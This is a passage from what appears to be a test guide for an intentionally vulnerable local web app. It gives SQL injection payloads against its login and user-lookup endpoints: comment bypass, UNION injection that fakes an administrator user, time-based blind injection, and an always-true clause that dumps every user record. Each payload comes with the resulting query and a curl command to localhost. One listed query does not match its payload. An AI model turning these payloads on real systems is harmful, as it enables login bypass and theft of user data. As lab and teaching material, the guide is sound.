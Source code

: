      curl -X POST -H "Content-Type: application/json" -d '{"username":"admin'\'' -- ","password":"anything"}' http://localhost:3000/api/login
     ```
  4. Confirm the response shows a successful login for `admin`.

#### Payload 3: Union-Based Data Extraction
- **Username**: `nonexistent' UNION SELECT 1, 'hacked', 'hacked@company.com', 'hacked_pass', 'administrator', true, CURRENT_TIMESTAMP, NULL, 0 --`
- **Password**: `anything`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'nonexistent' UNION SELECT 1, 'hacked', 'hacked@company.com', 'hacked_pass', 'administrator', true, CURRENT_TIMESTAMP, NULL, 0 -- ' AND password_hash = 'anything'`
- **Effect**: Returns a fake user with `administrator` role, potentially allowing login as a crafted user.
- **How to Test**:
  1. Enter the payload in the frontend login form’s `username` field.
  2. Submit and check the response message or use browser developer tools to inspect the API response.
  3. Use `curl`:
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"username":"nonexistent'\'' UNION SELECT 1, '\''hacked'\'', '\''hacked@company.com'\'', '\''hacked_pass'\'', '\''administrator'\'', true, CURRENT_TIMESTAMP, NULL, 0 -- ","password":"anything"}' http://localhost:3000/api/login
     ```
  4. Look for a response containing the fake user data (e.g., `username: "hacked"`).

#### Payload 4: Blind SQL Injection (Time-Based)
- **Username**: `admin' OR (SELECT PG_SLEEP(5)) IS NOT NULL --`
- **Password**: `anything`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' AND (SELECT PG_SLEEP(5)) -- ' AND password_hash = 'anything'`
- **Effect**: Delays the query by 5 seconds if the condition is true, confirming the vulnerability.
- **How to Test**:
  1. Enter the payload in the frontend login form’s `username` field.
  2. Click "Login" and measure the response time (should take ~5 seconds).
  3. Use `curl` with timing:
     ```bash
     time curl -X POST -H "Content-Type: application/json" -d '{"username":"admin'\'' AND (SELECT PG_SLEEP(5)) -- ","password":"anything"}' http://localhost:3000/api/login
     ```
  4. A 5-second delay indicates a successful injection.

### 2. User Endpoint (`GET /api/users/:username`)
- **Input Field**: `username` (URL parameter)
- **Vulnerable Query**: `SELECT * FROM users WHERE username = '${username}'`
- **Goal**: Extract sensitive user data or manipulate results.

#### Payload 1: Retrieve All Users
- **Username**: `admin' OR '1'='1`
- **URL**: `http://localhost:3000/api/users/admin%27%20OR%20%271%27=%271`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' OR '1'='1'`
- **Effect**: Returns all rows from the `users` table, exposing usernames, emails, password hashes, and roles.
- **How to Test**:
  1. Use a browser or `curl` to send the request:
     ```bash
     curl "http://localhost:3000/api/users/admin%27%20OR%20%271%27=%271"
     ```
  2. Alternatively, use a proxy like Burp Suite to modify a frontend request (e.g., from the "User Summary" form).
  3. Check the response for multiple user records (e.g., `admin`, `john_doe`, `jane_smith`).
